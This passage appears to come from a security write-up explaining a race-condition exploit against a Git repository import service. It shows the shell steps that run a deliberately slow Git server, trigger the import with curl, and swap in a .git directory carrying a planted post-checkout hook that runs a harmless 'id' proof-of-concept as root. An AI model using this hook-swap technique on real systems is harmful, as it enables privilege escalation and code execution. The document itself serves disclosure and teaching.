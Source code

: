 We run the server and give it some time to start up.

```sh
git update-server-info
cd .git
PORT=9988 /opt/nvm/versions/node/v10/bin/node ../../delay.js &
server_pid=$!
sleep 5
```

We ask the service to import our repository.

```sh
cd ../..
curl -v -H 'Content-Type: application/json' -d '{"repoUrl": "http://localhost:9988/"}' http://localhost:1083/git/import &
command_pid=$!
```

Setting up the `.git` directory is relatively fast.
Git will then need to transfer at least a ref, a commit, and a file.
So I put in a `sleep` for some time that should put us kind of in the middle of waiting for a request to our intentionally slow server.

```sh
sleep 1.5
```

Now, welcome to the "sneaky area."
Git has created a `.git` directory, and it will later check out a branch.
We can add whatever hooks we want during this time.

We can't do it by adding hook scripts in place, because Git running as root has created the `.git` directory to be owned by root.
But because we own the parent directory, we can replace the `.git` directory with an entirely different one.
We create that new one, based on the real one.

```sh
# vvv sneaky area
cp -r /app/.git new.git
cat >new.git/hooks/post-checkout <<'EOF'
id >/tmp/hi
EOF
chmod +x new.git/hooks/post-checkout
```

![](/assets/2021/glitch-git-import-swap.jpg)
